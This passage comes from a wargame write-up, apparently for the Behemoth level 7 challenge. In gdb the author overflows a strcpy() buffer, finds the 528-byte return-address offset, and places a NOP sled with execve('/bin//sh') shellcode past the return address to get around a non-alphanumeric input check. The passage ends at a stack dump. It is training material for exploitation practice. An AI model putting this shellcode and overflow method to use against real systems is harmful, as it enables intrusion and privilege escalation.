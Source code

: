 Okay, we can see that each of our environment variables are zeroed-out so, forget about placing a shellcode into an environment variable... Then, we got a call to *strcpy()* with our argument. We can try to overflow it !

```nasm
behemoth7@behemoth:/behemoth$ gdb -q ./behemoth7
Reading symbols from ./behemoth7...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) run $(python -c "print 600 * 'A'")
Starting program: /behemoth/behemoth7 $(python -c "print 600 * 'A'")

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Yay ! Now, we need to find the return address...

```nasm
(gdb) run $(python -c "print 528 * 'A' + 'BBBB'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /behemoth/behemoth7 $(python -c "print 528 * 'A' + 'BBBB'")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Looking good ! Let's place a shellcode and try again :

```nasm
(gdb) run $(python -c "print 507 * '\x90' + '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'BBBB'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /behemoth/behemoth7 $(python -c "print 507 * '\x90' + '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + 'BBBB'")
Non-alpha chars found in string, possible shellcode!
[Inferior 1 (process 20388) exited with code 01]
```

Ooooops... So, it seems that we need to have a shellcode in alphanum. However, after some try I figured out that we could place our shellcode after the return address :

```nasm
(gdb) run $(python -c "print 528 * '\x41' + 'BBBB' + 200 * '\x90' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
Starting program: /behemoth/behemoth7 $(python -c "print 528 * '\x41' + 'BBBB' + 200 * '\x90' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/500wx $esp

...[removed]...

0xffffd6e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd6f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd700:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd710:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd720:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd730:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd740:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd750:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd760:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd770:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd780:	0x41414141	0x41414141	0x41414141	0x42424141
0xffffd790:	0x90904242	0x90909090	0x90909090	0x90909090
```